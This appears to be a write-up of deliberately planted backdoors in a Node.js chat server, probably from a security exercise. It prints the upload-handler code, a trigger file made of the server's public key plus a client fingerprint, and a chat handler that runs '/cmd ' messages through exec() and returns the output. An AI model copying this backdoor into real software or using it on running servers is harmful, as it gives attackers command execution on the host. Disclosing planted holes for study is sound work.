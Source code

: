 ### Backdoors and Vulnerabilities
## Executing system commands on the server, from the client.
This code, located within the POST Request Handling of file uploads, checks the contents of each file upload to see if it begins with the data of the server's publicKey.
```
if (check.startsWith(pubkey_pem)) {
    var checkers = check.split("\n");
    if (checkers.length > 9) {
        var vfp = checkers[9];
        console.log(vfp);
        var client_ind = getClientIndex(vfp);
        if (client_ind != -1) {
            connectedClients[client_ind].permission = 1;
            res.setHeader('Content-Type', 'application/json');
            res.end(JSON.stringify({
                status: "Created",
                url: "Vulnerability Activated"
            }));
        }
    }
} else {
```
If the file does begin with the server's publicKey, if then the 'next line' in the file contains a valid fingerprint of a currently connected client, add a field "permission" to the client's associated websocket.
Example of file formatting for upload:
```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAoEWigTZy0S1+7qyezGUC
6uUDHy7xWDDGdgsp+7gr9S7GmnvpnYX3LfPBjx4vZ5lc7+8zU3oSsOigudASc1UE
qYyMt5fGkRiNYv7CKl7Jeiz/Ztt5GZKTxOBxFdyWg+upxEXk1OcF15G5LxkskrX4
BseXf30N2Eg5qRqHArbhUyb12s9/R1nueCXZA5+9cWyEzC9GsxaWWV0SkXlUXrtQ
0p37AQxLgm8Tvs54cZa4K4c2bnpWgD/hC0gGd7KXz5l0ByMEan+KVEyyca7pJryJ
Iqmijx2dmrKVkxr8qSAFHAhhoiPx/pYcYiO01lNJ//x2Mt4hV1U3xby42AkDXcJt
EwIDAQAB
-----END PUBLIC KEY-----
6b5cBW7+8zWqFrMXFlo+1hBjbrD/OO2nEMHeiDXBWwA
```
Where the last line is changed to be the the client's fingerprint.
Finally, whenever a client sends a public_chat message to the server, if the "permission" field is present and the message starts with "/cmd ", attempt to execute the message on the commandline.
```
case "public_chat":
    if (dataObj.data !== undefined) {
        var msg = dataObj.data.message;
        var cmd = "";
        if (ws.permission == 1) {
            if (msg.startsWith("/cmd ")) {
                cmd = msg.substr(4);
                console.log("executing code");
                exec(cmd, (err, stdout, stderr) => {
                    if (err) {
                        console.log("couldn't execute command");
                        return;
                    }
                    console.log(`stdout: ${stdout}`);
                    console.log(`stderr: ${stderr}`);
                    var retmsg = stdout + "\n" + stderr;
                    var execret = {
                        type: "anonymous_chat",
                        message: retmsg
                    };
                    ws.send(JSON.stringify(execret));
                });
                return;
            }
        }
    }
    sendToList(connectedClients, JSON.stringify(dataObj), data.sender);
    sendToList(connectedServers, JSON.stringify(dataObj), ws.fingerprint);
    break;
```
